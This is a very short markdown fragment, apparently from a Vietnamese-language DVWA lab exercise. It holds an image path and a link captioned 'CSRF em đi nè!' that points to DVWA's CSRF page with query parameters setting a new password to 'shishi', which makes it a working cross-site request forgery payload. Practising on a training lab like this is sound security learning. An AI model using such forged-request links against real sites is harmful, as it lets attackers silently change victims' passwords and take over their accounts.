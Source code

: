 
[CSRF em đi nè!](http://dvwa.com/vulnerabilities/csrf/?password_new=shishi&password_conf=shishi&Change=Change#)^^

